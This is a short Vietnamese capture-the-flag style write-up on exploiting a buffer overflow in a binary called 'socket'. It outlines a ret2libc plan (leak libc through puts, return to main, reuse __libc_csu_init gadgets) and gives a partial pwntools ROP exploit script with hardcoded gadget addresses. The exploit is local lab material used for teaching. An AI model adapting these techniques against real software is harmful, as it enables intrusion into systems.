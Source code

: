 Để khai thác chương trình chúng ta cần đáp ứng những tiêu chí sau:
* tính toán offset và gộp từng khối nhập vào, tạo thành 1 buf đủ lớn để bufferOverflow được controlflow.
* Set biến save (biến lưu địa chỉ của giá trị khối đầu tiên) bằng 0.
* leak libc, ret main -> tính base
* tính system, binsh rồi truyền vào cho lần nhập sau.

Set biến save ở đây để sau khi ret về main thì biến save sẽ giữ giá trị của khối đầu tiên mới, nếu ko thì nó sẽ lặp lại việc leak libc và ret về main 1 lần nữa.

Do ko có gadget pop rdx, cho nên chúng ta sẽ tận dụng mã code __libc_csu_init để gọi hàm read, truyền các tham số phù hợp để gọi được function read vào set save = 0

# Exploit

```python
from pwn import *
s = process("./socket")
context.log_level="debug"
pause()

# địa chỉ các gadget và function cần thiết
pop_rdi_ret = 0x00000000004011f3
puts_got = 0x602018
puts_plt = 0x4006c0
read_got = 0x602038
read_plt = 0x400700
main = 0x4010a3
ret= 0x00000000004006ae
addr_save = 0x6020b0
add_khoi2 = 0x00000000004011d0
add_6pop = 0x00000000004011ea 



s.recvuntil("Welcome to the convert server!\n")

#    mode      function
pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x60" + "\x00"*3
pl += p64(pop_rdi_ret)
pl += p64(puts_got)
pl += p64(puts_plt)
pl += p64(ret) 
pl += p64(main) 
s.send(pl)
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x60" + "\x00"*3
pl += p64(0)
pl += p64(0)
pl += p64(0)
pl += p64(0) 
pl += p64(0x6020a0) 
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x90" + "\x00"*3
pl += p64(0)
pl += p64(0)
pl += p64(0)
pl += p64(0) 
pl += p64(0x6020a0)
```